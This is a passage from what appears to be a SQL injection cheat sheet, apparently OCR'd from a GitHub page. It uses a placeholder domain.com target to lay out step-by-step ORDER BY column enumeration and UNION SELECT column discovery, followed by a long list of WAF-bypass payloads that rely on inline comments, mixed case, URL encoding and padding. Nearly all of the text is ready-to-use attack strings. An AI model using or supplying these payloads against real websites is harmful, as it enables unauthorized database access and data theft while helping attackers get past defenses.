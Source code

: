```http://domain.com/index.php?id=1```  
    - If none of the payloads didn't bypass WAF, try again the payloads by following the 2 rules below:
      - Add a minus (-) before 1 (example: ```?id=-1' /**/ORDER/**/BY/**/ 1-- -```)  
      - Remove the quote (') after the parameter value (example: ```?id=1 /**/ORDER/**/BY/**/ 1-- -```)

In this case, the payload ```?id=1 order by 1-- -``` worked and website loads successfuly. Now it is time to find the correct number of columns. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up: 

```http://domain.com/index.php?id=1 order by 1-- -``` no error  
```http://domain.com/index.php?id=1 order by 2-- -```  no error  
```http://domain.com/index.php?id=1 order by 3-- -```  no error  
```http://domain.com/index.php?id=1 order by 4-- -```  no error  
```http://domain.com/index.php?id=1 order by 5-- -```  error: ```Unknown column '5' in 'order clause'Unknown column '5' in 'order clause'```  

This means there are only 4 columns. Now we have to find which one of these 4 columns have information.  

## Find the vulnerable column where information are stored using 'UNION SELECT' query  

Using a simple query, we determine which of the 4 columns reflect our input using. Only 1 of these payloads will run without **syntax error**. *NOTE: If none worked, try the same payloads, but remove the quote (') after number 1.*    

```http://domain.com/index.php?id=1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1 Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=1'+UNION+ALL+SELECT+null,null,null,null--+-```  
```http://domain.com/index.php?id=1' Union Select null,2,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,null,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,null,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,3,null-- -```  
```http://domain.com/index.php?id=.1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1' div 0' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4 desc-- -```  
```http://domain.com/index.php?id=1' AND 0 Union Select 1,2,3,4-- -```  

Website must successfully load and we will see a number (in our case between 1-4)  

  - If the queries will not work, try the following payloads until you see the number:  
  
```http://domain.com/index.php?id=1+UNION+SELECT+1,2,3,4--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+1,2,3,4--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+1,2,3,4--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+null,null,null,null--+-```  
```http://domain.com/index.php?id=1 UNION(SELECT(1),(2),(3),(4))-- -```  
```http://domain.com/index.php?id=1 +Union Distinctrow Select+1,2,3,4-- -```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+13371,13372,13373,13374--+-```  
```http://domain.com/index.php?id=1+UNION+ALL+SELECT+1%2c2%2c3%2c4--+-```  
```http://domain.com/index.php?id=1 Union Select CHAR(49),CHAR(50),CHAR(51),CHAR(52)-- -```  
```http://domain.com/index.php?id=1 %23%0AUnion%23aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%0ASelect%23%0A1,2,3,4-- -``` (buffer by a * 300)  
 ```http://domain.com/index.php?id=Union Select * from (select 1)a join(select 2)b join(select 3)c join(select 4)d-- -```  

    - If the queries still doesn't show the vulnerable column number, it is probably the WAF blocking our queries. Let's try injection payloads which bypass it.   
    
    http://domain.com/index.php?id=1 /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3) 1,2,3,4-- -  
    http://domain.com/index.php?id=1+union+distinctROW+select+1,2,3,4--+-  
    http://domain.com/index.php?id=1+ #?uNiOn + #?sEleCt 1,2,3,4-- -  
    http://domain.com/index.php?id=1 + #?1q %0AuNiOn all#qa%0A#%0AsEleCt 1,2,3,4-- -  
    http://domain.com/index.php?id=1 /*!%55NiOn*/ /*!%53eLEct*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +un/**/ion+se/**/lect 1,2,3,4-- -  
    http://domain.com/index.php?id=1 +?UnI?On?+'SeL?ECT? 1,2,3,4-- -  
    http://domain.com/index.php?id=1+(UnIoN)+(SelECT)+1,2,3,4--+-  
    http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
    http://domain.com/index.php?id=1 %55nion(%53elect 1,2,3,4)-- -  
```